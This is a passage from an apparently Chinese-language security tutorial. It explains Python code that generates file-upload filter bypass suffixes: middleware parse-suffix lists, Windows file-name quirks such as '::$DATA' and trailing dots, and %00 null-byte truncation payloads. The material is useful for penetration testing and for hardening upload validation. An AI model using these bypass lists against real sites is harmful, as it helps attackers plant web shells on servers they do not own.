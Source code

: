 ```
    apache_parse_suffix = apache_build(case_asp_php_html_parse_suffix)
    case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
    tomcat_parse_suffix = tomcat_build(case_php_jsp_parse_suffix)        
    middleware_parse_suffix = iis_parse_suffix + apache_parse_suffix + tomcat_parse_suffix
```

## [](#五、-系统特性 "五、 系统特性")五、 系统特性

经过查资料，目前发现在系统层面，有以下特性可以被上传漏洞所利用。

Windows下文件名不区分大小写，Linux下文件名区分大写欧西；

Windows下ADS流特性，导致上传文件xxx.php::\$DATA = xxx.php；

Windows下文件名结尾加入`.`,`空格`,`<`,``·` ``\>`,`\>>>`,`0x81-0xff\`等字符，最终生成的文件均被windows忽略。

```
# 生成0x81-0xff的字符list
def str_81_to_ff():
    res = []
    for i in range(129,256):
        str = '%x' % i
        str = '%' + str
        str = urllib.unquote(str)
        res.append(str)
    return res
windows_os = [' ','.','/','::$DATA','<','>','>>>','%20','%00'] + str_81_to_ff()
def windows_suffix_builder(suffix):
    res = []
    for s in suffix:
        for w in windows_os:
            str = '%s%s' % (s,w)
            res.append(str)
    return res
```

## [](#六、-语言的漏洞 "六、 语言的漏洞")六、 语言的漏洞

语言漏洞被利用于上传的有\%00截断和0x00截断。它们在asp，php和jsp中都存在着。

```
def str_00_truncation(suffix,allow_suffix):
    res = []
    for i in suffix:
        str = '%s%s.%s' % (i,'%00',allow_suffix)
        res.append(str)
        str = '%s%s.%s' % (i,urllib.unquote('%00'),allow_suffix)
        res.append(str)
    return res
```

## [](#七、-双后缀 "七、 双后缀")七、 双后缀
